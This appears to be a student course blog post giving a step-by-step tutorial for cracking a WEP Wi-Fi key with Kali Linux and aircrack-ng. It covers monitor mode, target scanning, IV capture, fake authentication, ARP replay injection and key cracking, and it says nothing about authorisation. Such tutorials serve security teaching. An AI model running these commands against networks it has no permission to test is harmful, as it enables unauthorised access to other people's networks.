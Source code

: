 ```yaml
---
layout: post
title: "Blog 9"
description: "CIT 480 blog 9"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.

* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present

* iwconfig

To put WiFi Adapter in monitor mode.

* airmon-ng start wlan0

If processes are present then kill the processes.

* airmon-ng check kill

Run Again

* airmon-ng start wlan0

Confirm WiFi Adapter is in Monitor Mode

* iwconfig

__Step 3: Scan Network__

Find your target

* Airodump-ng wlan0

Copy BSSID of Target AP

Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

WiFi Adapter needs to be associated with AP to be able to inject packets later. 

* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__

Collect enough IVs

* Open New Terminal
* aircrack-ng <file_name.cap>



























